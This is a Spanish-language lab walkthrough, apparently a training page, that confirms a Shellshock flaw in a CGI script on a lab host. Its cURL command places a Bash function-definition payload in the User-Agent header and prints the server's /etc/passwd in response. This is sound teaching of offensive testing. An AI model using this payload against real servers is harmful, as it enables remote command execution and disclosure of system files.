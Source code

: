 ```bash
/access.cgi           (Status: 200) [Size: 0]
                                             
===============================================================
2023/03/23 09:26:29 Finished

```

A continuación, podemos usar cURL para el script y notar que no se nos devuelve nada, por lo que quizás sea un script defectuoso pero aún vale la pena explorar más.



```bash
curl -i http://10.129.204.231/cgi-bin/access.cgi

HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```

### Confirming the Vulnerability

Para verificar la vulnerabilidad, podemos usar un simple comando `cURL` o usar Burp Suite Repeater o Intruder para fuzzear el campo user-agent. Aquí podemos ver que se nos devuelven los contenidos del archivo `/etc/passwd`, confirmando así la vulnerabilidad a través del campo user-agent.



```bash
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
system

d-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```